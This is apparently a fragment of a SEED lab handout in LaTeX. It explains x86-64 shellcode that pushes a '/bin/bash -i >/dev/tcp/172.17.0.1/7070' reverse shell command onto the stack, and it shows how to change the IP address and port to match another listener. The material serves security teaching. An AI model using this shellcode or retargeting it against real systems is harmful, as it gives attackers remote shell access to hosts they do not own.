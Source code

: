 
The shellcode for the reverse shell command is given below (it is
also included in the provided code skeleton). If students
are interested in learning how to write such a shellcode
from scratch, they can look at the instructions in
another SEED lab, called \textit{Shellcode Development Lab}.


\begin{lstlisting}
# Execute "/bin/bash -i >/dev/tcp/172.17.0.1/7070 0<&1 2>&1"
rev_shell= (
   "\x48\x31\xc0\x50\x48\xb8\x2f\x2f\x2f\x2f\x62\x61\x73\x68\x50\x48"
   "\xb8\x2f\x2f\x2f\x2f\x2f\x62\x69\x6e\x50\x48\x89\xe3\x48\x31\xc0"
   "\x50\x48\xb8\x2d\x63\x63\x63\x63\x63\x63\x63\x50\x48\x89\xe1\x48"
   "\x31\xc0\x50\x48"
   ####################################
   "\xb8" "    2>&1" "\x50\x48"   (*@\ding{108}@*)
   "\xb8" "    0<&1" "\x50\x48"
   "\xb8" "        " "\x50\x48"
   "\xb8" "0.1/7070" "\x50\x48"   (*@\ding{109}@*)
   "\xb8" "/172.17." "\x50\x48"   (*@\ding{109}@*)
   "\xb8" "/dev/tcp" "\x50\x48"
   "\xb8" "h -i >  " "\x50\x48"
   "\xb8" "/bin/bas" "\x50\x48"   (*@\ding{108}@*)
   ####################################
   "\x89\xe2\x48\x31\xc0\x50\x52\x51\x53\x48\x89\xe6\x48\x89\xdf"
   "\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05"
).encode('latin-1')
\end{lstlisting}

The objective of lines between the two  marks is to 
push the reverse shell command into the stack. The string
is divided into several pieces, each having exactly 8 bytes.
These pieces are then pushed into the stack in the reverse order (because
stack grows from high addresses to low addresses).
Each line of the code does the same thing:
save (\textbackslash\texttt{xb8}) a 8-byte number to the \texttt{rax} register, 
and then pushes (\textbackslash\texttt{x50}\textbackslash\texttt{x48})
the value of this register into the stack. 
After running these lines of instructions, 
the following revser shell command will be stored on the stack.

\begin{lstlisting}
/bin/bash -i >/dev/tcp/172.17.0.1/7070 0<&1 2>&1
\end{lstlisting}

The IP address and port number part of the reverse shell command 
are in the lines marked by . 
If your server has a different IP address and/or port number,
you need to modify these lines. You need to make sure that
each line takes string that is exactly 8 bytes. If your string is shorter,
you can pad it with extra spaces;
if your string is longer, you can create another line.
For example, if your IP address is \texttt{172.17.30.153},
you can do the following:

\begin{lstlisting}
   "\xb8" "070     " "\x50\x48"
   "\xb8" "30.153/7" "\x50\x48"
   "\xb8" "/172.17." "\x50\x48"
\end{lstlisting}

